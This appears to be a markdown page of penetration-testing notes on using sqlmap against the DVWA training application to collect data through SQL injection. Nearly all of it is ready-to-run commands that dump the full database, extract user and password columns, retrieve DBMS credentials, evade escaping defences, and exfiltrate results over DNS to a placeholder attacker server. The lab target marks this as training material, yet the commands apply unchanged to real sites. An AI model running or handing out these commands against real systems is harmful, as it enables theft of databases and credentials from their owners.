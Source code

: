```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - post-exploitation
  - server-side-attack
  - sql-injection
  - credential-access-and-dumping
  - sqlmap
  - dvwa
---
```

# 03 - Data Collection

### 3.1 - Dump the whole database

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent -D dvwa --dump-all
```

### 3.2 - Dump the specific tables and columns

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent -D dvwa -T users -C user,password --dump
```

### 3.3 - Dump DBMS credentials

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --passwords
```

### 3.4 - Data retrieval mechanisms

The `--no-cast` flag will replace the `NULL` values with whitespace character. Some older versions of MySQL contains `None` values which is why the mechanism needed to be turned off.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --no-cast -D dvwa -T users -C user,password --dump
```

The `--hex` will convert the retrieved data into a encoded hexadecimal form then it will be decoded during data retrieval.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --hex -D dvwa -T users -C user,password --dump
```

There are cases of during data retrieval that some security defenses have a set of rules such as, `magic_quotes` and/or `mysql_real_escape_string` at the back-end server. Using the `--no-esacpe` switch to obfuscate the string values inside payloads (e.g `SELECT 'user'`) will be converted into decimal values (e.g `SELECT CHAR(117)+CHAR(115)+CHAR(101)+CHAR(114)`).

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --no-escape -D dvwa -T users -C user,password --dump
```

### 3.5 - Data exfiltration via DNS (Out-of-band SQL Injection)

TODO: Demonstrate DNS exfiltration via sqlmap

```
$ sudo sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --dns-domain=<dns_server_IP> -D dvwa -T users -C user,password --dump
```

---
## References

- [SQLmap – Enumeration of Databases & Users from Vulnerable Web Forms](https://kalilinuxtutorials.com/sqlmap2/)